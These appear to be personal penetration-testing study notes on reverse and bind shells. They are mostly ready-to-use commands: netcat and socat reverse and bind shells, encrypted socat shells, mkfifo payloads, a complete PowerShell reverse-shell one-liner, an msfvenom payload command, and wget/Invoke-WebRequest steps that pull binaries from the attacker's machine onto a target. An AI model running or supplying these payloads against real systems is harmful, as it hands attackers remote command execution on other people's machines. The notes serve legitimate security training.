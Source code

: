 # Reverse vs Bind shells
1. Reverse shells
are when the target is forced to execute code that connects back to your computer. 

  - Example: `sudo nc -lvnp 443` to start listner on attacker's machine, and `nc <LOCAL-IP> <PORT> -e /bin/bash` to set a reverse shell on the target's machine.

2. Bind shells
are when the code executed on the target is used to start a listener attached to a shell directly on the target. This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution that way.

  - Example: `nc -lvnp <port> -e "cmd.exe"` through a evil-winrm `evil-winrm -i <localIP>-u Adminstrator -p 'Try4ackM3'` on the target machine to set a listening port, and `nc MACHINE_IP <port>` on attacker's machine to connect to the target.

The important thing to understand here is that we are listening on the target, then connecting to it with our own machine.

## Shells can be either interactive or non-interactive
1. interactive: These allow you to interact with programs after executing them. For example, take the SSH login prompt. Examples include: Powershell, Bash, Zsh, sh, or any other standard CLI environment.

2. non-interactive: In a non-interactive shell you are limited to using programs which do not require user interaction in order to run properly, like whoami for example.

# Netcat shells stabilisation
### python
1. first step is `python -c 'import pty;pty.spawn("/bin/bash")'` which gets us a better featured bash shell. we might need to replace python with python2 or python3 as required.
2. second step is: `export TERM=xterm` -- this will give us access to term commands such as clear.
3. `stty raw -echo; fg` -- This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). then foregrounds the shell, thus completing the process.
    > Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type reset and press enter.

### rlwrap
rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell. To use rlwrap, we invoke a slightly different listener: `rlwrap nc -lvnp <port>`.

This gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, cuz they are difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with `Ctrl + Z`, then use `stty raw -echo; fg` to stabilise and re-enter the shell.

### Socat
1. we would first transfer a socat static compiled binary up to the target machine. How? set up a web server using `sudo python3 -m http.server 80` and download using `wget <LOCAL-IP>/socat -O /tmp/socat)` or on windows using `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`.

    > This technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell.

> With any of the above techniques, it's useful to be able to change your terminal tty size if you want to use something like a text editor. use `stty -a` to show the current values and `stty cols <num>`/`stty rows <num>` to set a new value. 

# Socat
### reverse shells
1. `socat TCP-L:<port> -` is an equivalent for `nc -lvnp <port>`.
2. For Windows target we use `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes` to connect back. The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output. while for Linux target we use `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

### bind shells
1. For linux target we use `socat TCP-L:<PORT> EXEC:"bash -li"`, while for windows we use `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`.
2. on attacker's machine we use `socat TCP:<TARGET-IP>:<TARGET-PORT> -` to connect to the listening target.

### Fully stable Linux tty reverse shell
This technique is one of its most useful applications. Here is the new listener syntax: (works only for linux targets) `socat TCP-L:<port> FILE:`tty`,raw,echo=0` which is equivalent to using the `Ctrl + Z`, `stty raw -echo; fg` trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.

this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a precompiled socat binary, which can then be executed as normal.

The special command is as follows: `socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`.

The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with  EXEC:"bash -li". We're also passing the arguments:
- pty, allocates a pseudoterminal on the target -- part of the stabilisation process
- stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
- sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
- setsid, creates the process in a new session
- sane, stabilises the terminal, attempting to "normalise" it.

  ### Example: (attacker< >target)
  ![image](https://github.com/user-attachments/assets/8ac883f6-5955-42d7-986b-c18692ab4bb3)

### Encrypted shells
Socat is capable of creating encrypted shells -- both bind and reverse. Suffice to say that any time TCP was used as part of a command, this should be replaced with OPENSSL when working with encrypted shells. 

Steps to use the feature:
1. We first need to generate a certificate. on our attacking machine: `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`.
2. We then need to merge the two created files into a single .pem file: `cat shell.key shell.crt > shell.pem`
3. to set up a reverse shell listener `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`
4. To connect back, we would use: `socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`
5. The same technique would apply for a bind shell:
  - Target: `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`
  - Attacker: `socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`

    ### Example: (attacker< >target)
    ![image](https://github.com/user-attachments/assets/8992c65c-aead-4452-bb6a-aeea142ae7a9)

6. what if we want to use the tty technique with the encrypted shell? here is the command to use: `socat OPENSSL-LISTEN:53 FILE:`tty`,raw,echo=0,cert=shell.pem,verify=0 -`, and to connect back, we use `socat OPENSSL:10.10.10.5:53 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`.

# Common Shell Payloads
As normal we can start the listener with `nc -lvnp <PORT> -e /bin/bash` and connect with `nc <LOCAL-IP> <PORT> -e /bin/bash`, however on linux we need to use the following: `mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f` and to connect: `mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`.

One-liner PSH reverse shell, usually when tageting a windows server:
```powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"```


# msfvenom
The standard syntax for msfvenom is as follows: `msfvenom -p <PAYLOAD> <OPTIONS>`. For example, to generate a Windows x64 Reverse Shell in an exe format, we could use: `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`.


